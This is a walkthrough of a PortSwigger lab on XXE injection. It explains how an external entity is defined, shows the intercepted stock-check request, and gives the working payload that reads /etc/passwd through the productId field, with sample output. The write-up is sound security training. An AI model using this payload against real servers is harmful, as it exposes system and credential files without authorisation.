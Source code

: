 ## Lab-01 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20653fe0-5306-47de-9852-879d7a9ae6ae)


## Overview :

#### Exploiting XXE to retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a **DOCTYPE element that defines an external entity** containing the path to the file.
- **Edit a data value in the XML that is returned in the application's response**, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe`; whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value. This causes the application's response to include the contents of the file:

```xml
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Click on one of the products & click the **checkstock** feature which is vulnerable to XXE.

The browser sends the following request.


```xml
POST /product/stock HTTP/1.1
Host: 0aa400220400046b804f17dc00d300c4.web-security-academy.net
Cookie: session=Nv6CS6L5nmAanBB776yX56ZFN4LVWnHm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

We can see that there is only 2 inputs that is passed via xml ie - **productID & storeID**.

First we declare a DOCTYPE with an external entity called xxe which retrieves the file _/etc/passwd_ - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` 

We can now try to reference the entity in any of the 2 inputs to see which retreives the  /etc/passwd file & displays the content in the response.

**Payload**

Since the productID value is returned in response, we refer the entitiy in between the <productID> tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f85fbf17-31a9-4845-9a85-818510ec1cd9)

Thus we've solved the lab.
  
 ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6d811789-e3c0-4300-8978-e855a473d929)





















